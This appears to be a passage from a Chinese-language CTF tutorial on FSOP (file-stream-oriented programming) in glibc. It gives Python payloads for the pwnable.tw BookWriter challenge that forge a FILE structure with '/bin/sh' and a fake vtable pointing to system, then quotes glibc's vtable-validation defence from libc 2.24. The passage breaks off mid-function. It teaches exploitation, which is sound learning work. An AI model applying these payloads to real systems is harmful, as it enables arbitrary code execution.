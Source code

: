   

一个利用实例如下所示（`pwnable.tw BookWriter`）：

```python
fake_bk = io_list_all - 0x10
fake_fd = top_addr
payload += '/bin/sh\0' + p64(0x61) + p64(fake_fd) + p64(fake_bk)
payload += p64(2) + p64(3)
payload += (0xc0-0x30)*'\x00' + p64(0)	//_mode
payload += '\x00'*0x10 + p64(heap_addr+0x160+0xd8+8)
payload += p64(0)*2 + p64(1) + p64(system_addr)


另一种写法：
payload += pack_file_64(_flags = u64('/bin/sh\0'),
					   _IO_read_ptr = 0x61,
					   _IO_read_end = fake_fd,
					   _IO_read_base = fake_bk,
					   _IO_write_base = 2,
					   _IO_write_ptr = 3)
vtalbe = heap_addr+0x160+0xd8+8
payload += p64(vtalbe)
payload += p64(0)*2 + p64(system_addr) + p64(system_addr)
```

## 4. FSOP 防御机制（libc 2.24 之后的利用方法） ##
从 libc2.24 开始，加入了对于 `vtable` 的检查函数，即 `IO_validata_vtable()` 和 `_IO_vtable_check()`两个函数。

```c++
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
	/* Fast path: The vtable pointer is within the __libc_IO_vtables section.  */
	uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
	const char *ptr = (const char *) vtable;
	uintptr_t offset = ptr - __start___libc_IO_vtables;
	if (__glibc_unlikely (offset >= section_length))
		/* The vtable pointer is not in the expected section.  Use the slow path, which will terminate the process if necessary.  */
		_IO_vtable_check ();
	return vtable;
}
```

其中 `IO_validate_vtable` 函数主要检查当前vtable是否在正常范围内（`__start___libc_IO_vtables ~ __stop___libc_IO_vtabls`）。如果不在则调用`_IO_vtable_check` 函数进行更为细致的检查。  

\_IO\_vtable\_check函数源代码如下所示：
```c++
<pre class="prettyprint lang-javascript"> 
void attribute_hidden
_IO_vtable_check (void)
{
	#ifdef SHARED
  	/* Honor the compatibility flag.  */
  	void (*flag) (void) = atomic_load_relaxed (&IO_accept_foreign_vtables);
	#ifdef PTR_DEMANGLE
  	PTR_DEMANGLE (flag);		
	//该宏定义的功能为：对指针进行保护，具体做法为与线程保护值相异或，原理类似stack canny
	#endif
  	if (flag == &_IO_vtable_check)
		return;
	/* In case this libc copy is in a non-default namespace, we always
    	need to accept foreign vtables because there is always a
     	possibility that FILE * objects are passed across the linking
     	boundary.  */
```